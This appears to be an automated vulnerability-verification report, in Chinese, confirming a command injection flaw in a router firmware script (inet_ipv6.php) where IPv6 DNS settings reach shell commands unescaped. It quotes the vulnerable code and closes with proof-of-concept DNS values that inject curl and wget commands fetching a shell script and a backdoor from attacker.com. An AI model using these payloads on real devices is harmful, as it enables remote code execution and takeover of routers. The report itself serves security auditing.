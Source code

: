 - **验证时长：** 272.62 秒
- **Token 使用量：** 388055

---

## 原始信息

- **文件/目录路径：** `etc/services/INET/inet_ipv6.php`
- **位置：** `inet_ipv6.php:多个位置，包括 get_dns 函数和 inet_ipv6_autodetect 函数`
- **描述：** 在 'inet_ipv6.php' 中发现命令注入漏洞，由于用户可控的DNS值在构建shell命令时未正确转义。攻击者作为已登录用户可通过Web界面修改IPv6 DNS设置，注入恶意命令（如使用分号或反引号）。当IPv6配置被应用时（例如网络重启或服务重新加载），生成的脚本会执行这些命令，可能导致任意代码执行。漏洞触发条件包括：1) 攻击者修改DNS设置为恶意值；2) 系统触发IPv6重新配置（如通过Web界面保存设置或自动检测）。潜在利用方式包括执行系统命令、提升权限或访问敏感数据。
- **代码片段：**
  ```
  // get_dns 函数拼接DNS值
  function get_dns($p)
  {
      anchor($p);
      $cnt = query("dns/count")+0;
      foreach ("dns/entry")
      {
          if ($InDeX > $cnt) break;
          if ($dns=="") $dns = $VaLuE;
          else $dns = $dns." ".$VaLuE;
      }
      return $dns;
  }
  
  // DNS值用于构建命令字符串（示例来自 inet_ipv6_autodetect）
  ' "DNS='.get_dns($inetp."/ipv6").'"'
  
  // 直接使用DNS值 inet_ipv6_autodetect
  '      if [ '.$pdns.' ]; then\n'.
  '           xmldbc -s '.$v6actinetp.'/ipv6/dns/entry:1 "'.$pdns.'"\n'.
  ```
- **备注：** 漏洞需要用户通过Web界面修改DNS设置，且触发IPv6重新配置。建议检查Web前端对DNS输入的过滤机制。关联文件包括 '/etc/scripts/IPV6.INET.php' 和 '/etc/events/WANV6_AUTOCONF_DETECT.sh'。后续应分析这些脚本以确认命令执行上下文和权限。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据如下：1) get_dns 函数（第16-25行）从用户配置中读取DNS条目并直接拼接成字符串，没有输入验证或转义；2) 在 inet_ipv6_6in4 函数（第284行）、inet_ipv6_static 函数（第537行）和 inet_ipv6_autodetect 函数（第742-743行）中，get_dns 返回值或直接DNS查询值（$pdns）被直接插入到shell命令字符串中，构建如 'phpsh /etc/scripts/IPV6.INET.php ... "DNS=..."' 和 shell 脚本条件语句；3) 在 inet_ipv6_autodetect 函数中，$pdns 被直接嵌入到生成的shell脚本（第742-743行），用于执行 xmldbc 命令。攻击者模型：已登录用户通过Web界面修改IPv6 DNS设置（输入可控）。当设置保存或网络重启时（路径可达），触发IPv6重新配置，执行这些命令。实际影响：任意命令执行，可能导致系统完全妥协。PoC步骤：攻击者作为已登录用户，在IPv6 DNS设置中输入恶意载荷，如 '8.8.8.8; curl http://attacker.com/shell.sh | sh' 或 '`wget http://attacker.com/backdoor -O /tmp/backdoor && chmod +x /tmp/backdoor && /tmp/backdoor`'，保存设置后触发网络重启，恶意命令将以系统权限执行。

## 验证指标
